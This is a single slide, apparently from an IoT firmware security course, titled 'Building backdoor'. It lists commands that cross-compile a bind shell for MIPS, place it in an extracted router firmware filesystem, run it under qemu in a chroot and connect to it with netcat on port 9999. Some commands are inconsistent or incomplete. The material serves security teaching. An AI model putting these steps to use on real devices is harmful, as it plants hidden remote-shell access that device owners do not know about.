

# Building backdoor
Example
cd buildroot-2018.02.1/output/host/usr/bin/
./mips-buildroot-linux-uclibc-gcc bindshell.c -static -o
backdoor
sudo chmod +x backdoor
Copy the bindshell over to extracted filesystem usr/bin
sudo cp bindshell /home/iotos/tools/firmware-mod-kit/DIR300B5_FW2 12WWB02/rootfs/usr/bin
Cp over the qemu MIPS binary
sudo cp /usr/bin/qemu-mipsel-static
sudo chroot . ./qemu-mipsel-static bindshell
Open up another terminal and connect to the bindshell on port 9999 - nc -nv 127.0.0.1 9999

173